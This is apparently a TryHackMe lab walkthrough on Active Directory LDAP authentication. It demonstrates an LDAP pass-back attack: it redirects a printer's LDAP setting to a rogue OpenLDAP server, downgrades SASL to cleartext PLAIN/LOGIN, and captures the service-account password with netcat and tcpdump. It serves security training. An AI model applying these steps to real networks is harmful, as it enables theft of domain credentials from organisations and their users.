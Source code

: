 # LDAP Authentication in Active Directory

## Overview

Lightweight Directory Access Protocol (LDAP) is another method of Active Directory (AD) authentication used by applications. Unlike NTLM, LDAP authentication allows the application to directly verify user credentials. Typically, the application uses a pair of AD credentials to query LDAP and then validate the user's credentials.

LDAP authentication is popular among third-party (non-Microsoft) applications that integrate with AD, such as:

- GitLab
- Jenkins
- Custom-developed web applications
- Printers
- VPNs

If these services are exposed to the internet, they are susceptible to attacks similar to those targeting NTLM authentication. However, since LDAP authentication requires a set of AD credentials, attackers may attempt to recover these credentials to gain authenticated access to AD.

## Credential Recovery via Configuration Files

If you gain access to a host (e.g., a GitLab server), you may be able to recover AD credentials by reading configuration files. These credentials are often stored in plain text, relying on the security of the file location rather than its contents. Configuration file security is discussed further in Task 7.

---

## LDAP Pass-back Attacks

An LDAP Pass-back attack targets LDAP authentication mechanisms, commonly against network devices like printers after gaining internal network access (e.g., via a rogue device).

### Attack Scenario

If you access a device's configuration (such as a printer's web interface), you may not be able to extract the LDAP password directly, but you can alter the LDAP server IP/hostname. By pointing the LDAP server configuration to your own IP and triggering a test, the device will attempt to authenticate to your rogue server, allowing you to intercept the credentials.

**Example:**  
Navigate to `http://printer.za.tryhackme.com/settings.aspx` to access the printer's settings page.

- The username may be visible, but the password is hidden.
- When "Test Settings" is pressed, the device attempts LDAP authentication.

### Initial Test with Netcat

Set up a Netcat listener on port 389 (LDAP):

```bash
nc -lvp 389
```

> **Note:** If using AttackBox, stop slapd first:  
> `service slapd stop`

Update the printer's LDAP server setting to your VPN IP (find it with `ip a`). Press "Test Settings" to trigger the connection.

**Expected Output:**

```
[thm@thm]$ nc -lvp 389
listening on [any] 389 ...
10.10.10.201: inverse host lookup failed: Unknown host
connect to [10.10.10.55] from (UNKNOWN) [10.10.10.201] 49765
...
```

However, Netcat alone cannot capture credentials, as the device negotiates the authentication method and may not send credentials in cleartext.

---

## Hosting a Rogue LDAP Server

To capture credentials, set up a rogue LDAP server supporting only insecure authentication methods (PLAIN and LOGIN).

### Install and Configure OpenLDAP

If not already installed:

```bash
sudo apt-get update && sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd
```

Reconfigure OpenLDAP:

```bash
sudo dpkg-reconfigure -p low slapd
```

- Set DNS domain and Organisation name to `za.tryhackme.com`
- Choose any Administrator password
- Select MDB as the database
- Do not remove the database when purged
- Move old database files before creating a new one

### Downgrade Authentication Mechanisms

Create `olcSaslSecProps.ldif`:

```ldif
# olcSaslSecProps.ldif
dn: cn=config
replace: olcSaslSecProps
olcSaslSecProps: noanonymous,minssf=0,passcred
```

Apply the configuration:

```bash
sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart
```

Verify supported mechanisms:

```bash
ldapsearch -H ldap:// -x -LLL -s base -b "" supportedSASLMechanisms
```

Expected output:

```
supportedSASLMechanisms: PLAIN
supportedSASLMechanisms: LOGIN
```

---

## Capturing LDAP Credentials

With the rogue LDAP server running, press "Test Settings" on the printer's web interface. If configured correctly, you should see an error like "This distinguished name contains invalid syntax"—this means the credentials were sent in cleartext.

Capture the credentials using `tcpdump`:

```bash
sudo tcpdump -SX -i breachad tcp port 389
```

Look for the username and password in the captured packets (e.g., `za.tryhackme.com\svcLDAP` and `password11`).

> **Note:** The actual password will differ. You may need to press "Test Settings" multiple times for the credentials to appear.

---

## Summary

By exploiting LDAP authentication and downgrading the authentication mechanism, you can intercept AD credentials in cleartext using a rogue LDAP server and packet capture tools.
